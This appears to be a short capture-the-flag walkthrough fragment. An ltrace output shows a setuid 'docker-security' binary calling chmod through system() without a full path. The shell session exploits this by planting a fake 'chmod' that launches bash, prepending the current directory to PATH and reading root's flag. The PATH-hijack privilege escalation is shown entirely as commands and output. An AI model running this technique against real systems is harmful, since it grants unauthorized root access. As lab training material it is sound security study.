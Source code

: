 
dexter@laboratory:~$ ltrace docker-security 
setuid(0)                                                                                                                                        = -1
setgid(0)                                                                                                                                        = -1
system("chmod 700 /usr/bin/docker"chmod: changing permissions of '/usr/bin/docker': Operation not permitted
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                           = 256
system("chmod 660 /var/run/docker.sock"chmod: changing permissions of '/var/run/docker.sock': Operation not permitted
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                           = 256
+++ exited (status 0) +++


dexter@laboratory:/tmp/.plop$ echo /bin/bash > chmod
dexter@laboratory:/tmp/.plop$ chmod +x chmod
dexter@laboratory:/tmp/.plop$ export PATH=./:$PATH
dexter@laboratory:/tmp/.plop$ echo $PATH
./:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/snap/bin
dexter@laboratory:/tmp/.plop$ docker-security 
root@laboratory:/tmp/.plop# cat /root/root.txt
1b08ba51a612057b8aca9940e57fce77
